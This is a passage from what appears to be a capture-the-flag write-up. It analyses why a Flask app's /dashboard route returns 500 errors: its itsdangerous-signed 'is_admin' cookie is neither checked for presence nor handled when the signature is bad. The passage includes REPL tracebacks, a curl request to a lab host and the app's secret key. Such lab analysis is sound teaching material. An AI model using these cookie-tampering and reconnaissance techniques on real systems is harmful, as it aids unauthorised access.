    >>> serializer.loads('ImFkbWluIg.uAlmXlTvm8vyihjNaPDWnvB_Zfs')
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/serializer.py", line 236, in loads
        raise _t.cast(BadSignature, last_exception)
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/serializer.py", line 232, in loads
        return self.load_payload(signer.unsign(s))
                                 ^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/signer.py", line 247, in unsign
        raise BadSignature(f"Signature {sig!r} does not match", payload=value)
    itsdangerous.exc.BadSignature: Signature b'uAlmXlTvm8vyihjNaPDWnvB_Zfs' does not match
    

As the code makes no attempt to handle these errors, that explains the 500
errors coming back when I mess with the cookie.

### Dashboard Error Codes

I noticed when I brute forced directories on the webserver that `feroxbuster`
reported `/dashboard` as a 500 error. I remember being annoyed that it was 500
and not 401, especially after seeing the page that comes back without admin
access:

“That really should be a 401 response, not a 500” I remember thinking. But
looking in Burp, it _is_ a 401:

What is happening? What about `curl`? It’s a 500:

    
    
    oxdf@hacky$ curl http://10.10.11.8:5000/dashboard -v
    *   Trying 10.10.11.8:5000...
    * Connected to 10.10.11.8 (10.10.11.8) port 5000 (#0)
    > GET /dashboard HTTP/1.1
    > Host: 10.10.11.8:5000
    > User-Agent: curl/7.81.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 500 INTERNAL SERVER ERROR
    < Server: Werkzeug/2.2.2 Python/3.11.2
    < Date: Fri, 12 Jul 2024 11:38:11 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 265
    < Connection: close
    < 
    <!doctype html>
    <html lang=en>
    <title>500 Internal Server Error</title>
    <h1>Internal Server Error</h1>
    
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

    * Closing connection 0
    

The difference here is that my browser has a cookie saying that the user is
not an admin, whereas `feroxbuster` and `curl` have no cookie at all. I
already noted what happens above when I edit the cookie so that the signature
isn’t valid. The same issue happens when the cookie isn’t present. The site
was coded poorly such that it just assumes the cookie exists, and crashes when
it doesn’t. The first line of the `/dashboard` route is:

    
    
        if serializer.loads(request.cookies.get('is_admin')) == "user":
            return abort(401)
    

It calls `request.cookies.get('is_admin')`, which returns `None`.
`request.cookies` is just a dictionary, so I can simulate this:

    
    
    >>> cookies = {}
    >>> cookies.get("is_admin")
    >>> cookies.get("is_admin") is None
    True
    

Calling `serializer.loads(None)` will crash:

    
    
    >>> from itsdangerous import URLSafeSerializer
    >>> secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A'
    >>> serializer = URLSafeSerializer(secret_key)
    >>> serializer.loads(None)
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/serializer.py", line 232, in loads
        return self.load_payload(signer.unsign(s))
                                 ^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/signer.py", line 239, in unsign
        if self.sep not in signed_value:
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    TypeError: argument of type 'NoneType' is not iterable
    

So with a user cookie, 401, but with no cookie, 500.

